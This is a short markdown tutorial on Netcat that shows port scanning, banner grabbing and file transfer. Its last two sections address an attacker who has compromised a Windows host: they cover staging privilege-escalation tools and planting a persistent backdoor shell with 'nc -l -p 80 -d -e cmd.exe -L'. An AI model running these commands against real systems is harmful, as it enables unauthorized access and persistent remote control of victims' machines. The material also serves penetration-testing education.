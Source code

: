 # Using Netcat for port scanning
The most basic form of command is:
`# nc [options] host port(s)`
options are described below
host can be either an IP address or valid hostname
Ports can be a single port or a range of ports such as 20-53 or individual ports separated by spaces.

### Let's get started
A small tool that can do remote port scanning would be nice to have and Netcat can fill this role very well and a lot of other ones.

A typical command to perform port scanning would be:
`# nc -v -w 3 -z 192.168.1.69 20-150`
The first portion of the command line that says: nc -v -w 3 which simply tells Netcat to give us more verbose feedback and to timeout after 3 seconds if no connections could be established.

The -z switch prevent Netcat from sending any data to a TCP connection and it will only send very limited data to a UDP connection.

Here is another example: you will use UDP protocol instead of the TCP protocol.
`# nc -v -w 3 -z -u 192.168.1.69 20-100`

### Using Netcat for banner grabbing
Another neat usage of Netcat is for banner grabbing(technique to glean information of the system on the Internet)
`# nc -v -n 192.168.1.69 80
GET / HTTP/1.1\n\n`
Once connected above you simply issued the command: GET HTTP

### Combining both port scan and banner identification
Now we will combine both Port Scan and banner identification.
```bash
# echo -en "GET / HTTP/1.1\n\n" | nc -v -n 216.58.199.228 80
```

### Using Netcat to transfer files
Netcat can be used as well to transfer files between two hosts. It can be a very effective tool to transfer the files that you need in order to escalate your privileges on a remote host.
Let's suppose we have the following scenario. You have a Windows host that you successfully compromised and you wish to transfer additional tools to it in order to escalate your privileges.
on the remote host:
`# nc -l -p 53 > toolkit.zip`
on the local host:
`# nc [remote host] 53 < toolkit.zip`

### Setting up a backdoor
You have compromised a Windows host and you wish to establish a backdoor that you will be able to connect to from your BackTrack attack machine.
on the compromised windows host:
`# nc -l -p 80 -d -e cmd.exe -L`
on the local host:
`# nc [remote host] 80`
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTIwMzM4MjkyMywtMzE3NDAxNDgxLDU3OD
U5Mzg0MiwxMTk5MjUzOTcwLDk0NjAyMjMyMywxMzcyOTg2MjAw
XX0=
-->